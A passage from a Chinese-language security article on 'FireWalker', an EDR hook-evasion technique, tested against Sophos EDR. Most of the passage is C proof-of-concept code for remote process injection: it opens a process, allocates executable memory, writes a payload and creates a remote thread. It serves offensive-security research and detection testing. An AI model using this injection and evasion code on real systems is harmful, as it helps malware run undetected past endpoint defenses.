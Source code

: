 然后，恢复`Trap()`函数的调用，执行相同的代码，启动跟踪，在没有记录参数的情况下展示了成功逃避挂钩：

[![](https://p3.ssl.qhimg.com/t0191cbbc714a21ac5d.png)](https://p3.ssl.qhimg.com/t0191cbbc714a21ac5d.png)



## 0x04 实战：FireWalker VS Sophos EDR

为了将FireWalker概念投入到实际攻防对抗中，我们使用PoC测试了许多EDR产品，这里的PoC用到了代码注入和执行技术，而这些技术通常被后漏洞利用工具（例如UrbanBishop）使用，也经常会被检测到。

```
printf("About to open process\n");
    getchar();

    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwPid);
    if (!hProcess)
    `{`
        printf("Error opening process\n");
        return 1;
    `}`

    printf("About to alloc memory\n");
    getchar();

    LPVOID lpvRemote = VirtualAllocEx(hProcess, NULL, 8192, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if (!lpvRemote)
    `{`
        printf("Unable to allocate remote memory\n");
        return 1;
    `}`

    printf("About to write memory\n");
    getchar();

    SIZE_T BytesWritten = 0;

    if (!WriteProcessMemory(hProcess, lpvRemote, rgbPayload, lFileSize, &amp;BytesWritten))
    `{`
        printf("Unable to write memory\n");
        return 1;
    `}`

    printf("About to create thread\n");
    getchar();

    HANDLE hRemoteThread = CreateRemoteThreadEx(
        hProcess,
        NULL,
        0,
        (LPTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(L"ntdll"), "RtlExitUserThread"),
        0,
        CREATE_SUSPENDED,
        NULL,
        NULL
    );

    if(!hRemoteThread)
    `{`
        printf("Unable to create remote thread\n");
        return 1;
    `}`

```